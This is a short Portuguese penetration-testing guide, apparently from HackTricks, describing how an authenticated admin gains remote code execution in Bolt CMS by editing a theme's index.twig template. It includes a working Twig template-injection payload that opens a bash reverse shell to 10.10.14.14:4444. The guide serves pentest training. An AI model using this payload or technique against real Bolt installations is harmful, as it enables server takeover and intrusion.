 # Bolt CMS

{{#include ../../banners/hacktricks-training.md}}

## RCE

Após fazer login como admin (vá para /bot para acessar o prompt de login), você pode obter RCE no Bolt CMS:

- Selecione `Configuration` -> `View Configuration` -> `Main Configuration` ou vá para o caminho da URL `/bolt/file-edit/config?file=/bolt/config.yaml`
- Verifique o valor do tema

<figure><img src="../../images/image (771).png" alt=""><figcaption></figcaption></figure>

- Selecione `File management` -> `View & edit templates`
- Selecione a base do tema encontrada no passo anterior (`base-2021` neste caso) e selecione `index.twig`
- No meu caso, isso está no caminho da URL /bolt/file-edit/themes?file=/base-2021/index.twig
- Defina seu payload neste arquivo via [template injection (Twig)](../../pentesting-web/ssti-server-side-template-injection/index.html#twig-php), como: `{{['bash -c "bash -i >& /dev/tcp/10.10.14.14/4444 0>&1"']|filter('system')}}`
- E salve as alterações

<figure><img src="../../images/image (948).png" alt=""><figcaption></figcaption></figure>

- Limpe o cache em `Maintenance` -> `Clear the cache`
- Acesse novamente a página como um usuário comum, e o payload deve ser executado

{{#include ../../banners/hacktricks-training.md}}
